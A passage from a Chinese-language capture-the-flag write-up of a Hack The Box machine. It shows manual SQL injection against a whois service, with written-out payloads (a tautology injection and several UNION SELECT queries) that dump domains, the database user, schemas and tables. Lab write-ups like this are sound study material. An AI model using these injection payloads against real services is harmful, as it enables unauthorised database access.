 

![](https://vip1.loli.net/2020/05/24/UswAYt8R5zBSTJi.png)

[TOC]

## 信息收集

![](https://vip1.loli.net/2020/02/23/P1OoYqxJsS29avy.png)

## Whois 服务器 SQL 注入

一开始刚拿到机器时，80 端口看了下用 IP 直接打开没有网站，FTP 21 端口也需要用户名密码才能登陆，都无果后，来看下他 43 端口的 whois 服务器。

whois 服务器一般是用来查询域名 whois 信息的，查询域名的注册商、注册时间等信息，随便输入一个试试

![](https://vip1.loli.net/2020/05/24/AjHd5LpJXRErSx2.png)

这里就给了我们两个信息：

1. whois 服务器后端数据库是 `MariaDB 10.1.37`
2. 给了我们一个域名 `supersechosting.htb`

![](https://vip1.loli.net/2020/05/24/CS7XGxh5W8cmBRM.png)

用他给的 `supersechosting.htb` 域名进行查询能正常出结果，上面给的信息也说了，后端是 MariaDB 数据库，那么会不会有 SQL 注入呢？

![](https://vip1.loli.net/2020/05/24/b4hJFcYUwLfTZpV.png)

在查询域名的后面加上了一个单引号，得到了一个在 web 上常见的数据库报错！那么就进行手工注入，列出所有的域名

```
whois -h 10.10.10.155 SUPERSECHOSTING.HTB\'\)or\ 1=1\#
```

![](https://vip1.loli.net/2020/05/24/2wI1GeL4ru6Kp3k.png)

通过该条查询，得到了以下域名

- SUPERSECHOSTING.HTB
- JUSTANOTHERBLOG.HTB
- PWNHATS.HTB
- RENTAHACKER.HTB

接下来随意查了一下数据库基本信息、数据库表以及数据库用户等信息备用

```
whois -h 10.10.10.155 "') union select user(),2#"
whois@localhost

whois -h 10.10.10.155 "') union select database(),2#"
whois

whois -h 10.10.10.155 "') union select (select group_concat(schema_name) from information_schema.schemata),2#"
information_schema,whois

whois -h 10.10.10.155 "') union select (select group_concat(table_name) from information_schema.tables where table_schema='whois'),2#"
customers
```
